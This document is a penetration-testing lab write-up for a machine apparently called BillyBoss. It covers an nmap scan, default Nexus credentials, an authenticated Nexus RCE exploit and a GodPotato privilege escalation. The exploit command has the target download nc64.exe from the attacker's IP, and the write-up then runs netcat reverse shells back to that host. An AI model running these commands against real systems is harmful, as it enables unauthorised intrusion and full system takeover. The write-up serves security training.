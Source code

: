 # BillyBoss

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.61 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 20:35 +08
Nmap scan report for 192.168.175.61
Host is up (0.17s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8081/tcp  open  blackice-icecap
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

To avoid making this long:

* FTP was not interesting because anonymous access isn't allowed and guessing credentials is pointless.
* Port 80 had some application that wasn't working properly.
* SMB did not accept null credentials and had nothing there.
* The rest of the ports were pretty useless.

### Default Creds -> Nexus RCE

Port 8081 had a Nexus Repository Manager that was running:

<figure><img src="../../../.gitbook/assets/image (2141).png" alt=""><figcaption></figcaption></figure>

To exploit this, we first need to guess the credentials to login. `nexus:nexus` works for this one. Then, we need to grab the correct exploit:

```
$ searchsploit sonatype     
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticat | java/webapps/49385.py
----------------------------------------------------------- ---------------------------------
```

Edit the exploit accordingly:

```
URL='http://192.168.175.61:8081'
CMD='cmd.exe /c powershell -c wget 192.168.45.164/nc64.exe -Outfile C:/Windows/Tasks/nc.exe'
USERNAME='nexus'
PASSWORD='nexus'
```

Then, we can

Then, we can execute the script once to download `nc.exe` onto the machine, and another to execute `nc.exe` to get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (2904).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SeImpersonatePrivilege -> Admin Shell

The user has `SeImpersonatePrivilege` enabled:

```
C:\Windows\Tasks>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

However, `PrintSpoofer.exe` wasn't working normally, so we probably need to use another method. Instead, we can use `GodPotato.exe` to do this:

{% embed url="https://github.com/BeichenDream/GodPotato/releases" %}

```
.\potato.exe -cmd "C:\Windows\Tasks\nc.exe 192.168.45.164 4444 -e cmd.exe"
```

<figure><img src="../../../.gitbook/assets/image (866).png" alt=""><figcaption></figcaption></figure>

For some reason, this user was unable to run `whoami`, so I just captured the flag instead:

![](<../../../.gitbook/assets/image (3198).png>)
